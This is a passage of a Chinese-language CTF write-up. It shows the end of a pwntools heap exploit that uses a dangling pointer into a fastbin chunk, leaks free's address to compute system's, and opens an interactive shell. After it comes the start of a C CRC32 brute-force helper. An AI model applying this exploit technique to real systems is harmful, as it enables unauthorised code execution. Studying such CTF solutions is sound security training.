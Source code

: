 ```python

toggle_worker(WORKER2_ADDR + heap_base_addr)

#now job_stack is dangling pointer pointing to chunk in fastbin

request_crc32_comp(crack_crc32(JOB1_CONTENT_ADDR + heap_base_addr))

yield_worker()
yield_worker()

sh.send("3\n")



sh.recvuntil("Getting Job\n")
got_info = sh.recv()
free_addr = parse_addr(got_info)
print "free addr: " + hex(free_addr)
system_addr = free_addr - FREE_ADDR + SYSTEM_ADDR
print "system addr: " + hex(system_addr)

sh.send(hex(system_addr)[2:] + "\n")

sh.interactive()
```

顺便提一下，在服务器的shell中直接python运行这个脚本的话，from pwn import \*这里会卡死，不知道为什么，有大神知道的话，可以讨论一下。所以我说先python打开交互式界面，然后手动import我的exp，就可以getshell了。。。

其中，crack\_crc32是用来爆破crc32的程序，因为是爆破，所以exp的运行时间可能会有些长。代码如下：



```c
#include <stdint.h>
#include <stdio.h>
static uint32_t crc32_tab[] = {
  0x00000000, 0x77073096, 0xee0e612c, 0x990951ba, 0x076dc419, 0x706af48f,
  0xe963a535, 0x9e6495a3, 0x0edb8832, 0x79dcb8a4, 0xe0d5e91e, 0x97d2d988,
  0x09b64c2b, 0x7eb17cbd, 0xe7b82d07, 0x90bf1d91, 0x1db71064, 0x6ab020f2,
  0xf3b97148, 0x84be41de, 0x1adad47d, 0x6ddde4eb, 0xf4d4b551, 0x83d385c7,
  0x136c9856, 0x646ba8c0, 0xfd62f97a, 0x8a65c9ec, 0x14015c4f, 0x63066cd9,
  0xfa0f3d63, 0x8d080df5, 0x3b6e20c8, 0x4c69105e, 0xd56041e4, 0xa2677172,
  0x3c03e4d1, 0x4b04d447, 0xd20d85fd, 0xa50ab56b, 0x35b5a8fa, 0x42b2986c,
  0xdbbbc9d6, 0xacbcf940, 0x32d86ce3, 0x45df5c75, 0xdcd60dcf, 0xabd13d59,
  0x26d930ac, 0x51de003a, 0xc8d75180, 0xbfd06116, 0x21b4f4b5, 0x56b3c423,
  0xcfba9599, 0xb8bda50f, 0x2802b89e, 0x5f058808, 0xc60cd9b2, 0xb10be924,
  0x2f6f7c87, 0x58684c11, 0xc1611dab, 0xb6662d3d, 0x76dc4190, 0x01db7106,
  0x98d220bc, 0xefd5102a, 0x71b18589, 0x06b6b51f, 0x9fbfe4a5, 0xe8b8d433,
  0x7807c9a2, 0x0f00f934, 0x9609a88e, 0xe10e9818, 0x7f6a0dbb, 0x086d3d2d,
  0x91646c97, 0xe6635c01, 0x6b6b51f4, 0x1c6c6162, 0x856530d8, 0xf262004e,
  0x6c0695ed, 0x1b01a57b, 0x8208f4c1, 0xf50fc457, 0x65b0d9c6, 0x12b7e950,
  0x8bbeb8ea, 0xfcb9887c, 0x62dd1ddf, 0x15da2d49, 0x8cd37cf3, 0xfbd44c65,
  0x4db26158, 0x3ab551ce, 0xa3bc0074, 0xd4bb30e2, 0x4adfa541, 0x3dd895d7,
  0xa4d1c46d, 0xd3d6f4fb, 0x4369e96a, 0x346ed9fc, 0xad678846, 0xda60b8d0,
  0x44042d73, 0x33031de5, 0xaa0a4c5f, 0xdd0d7cc9, 0x5005713c, 0x270241aa,
  0xbe0b1010, 0xc90c2086, 0x5768b525, 0x206f85b3, 0xb966d409, 0xce61e49f,
  0x5edef90e, 0x29d9c998, 0xb0d09822, 0xc7d7a8b4, 0x59b33d17, 0x2eb40d81,
  0xb7bd5c3b, 0xc0ba6cad, 0xedb88320, 0x9abfb3b6, 0x03b6e20c, 0x74b1d29a,
  0xead54739, 0x9dd277af, 0x04db2615, 0x73dc1683, 0xe3630b12, 0x94643b84,
  0x0d6d6a3e, 0x7a6a5aa8, 0xe40ecf0b, 0x9309ff9d, 0x0a00ae27, 0x7d079eb1,
  0xf00f9344, 0x8708a3d2, 0x1e01f268, 0x6906c2fe, 0xf762575d, 0x806567cb,
  0x196c3671, 0x6e6b06e7, 0xfed41b76, 0x89d32be0, 0x10da7a5a, 0x67dd4acc,
  0xf9b9df6f, 0x8ebeeff9, 0x17b7be43, 0x60b08ed5, 0xd6d6a3e8, 0xa1d1937e,
  0x38d8c2c4, 0x4fdff252, 0xd1bb67f1, 0xa6bc5767, 0x3fb506dd, 0x48b2364b,
```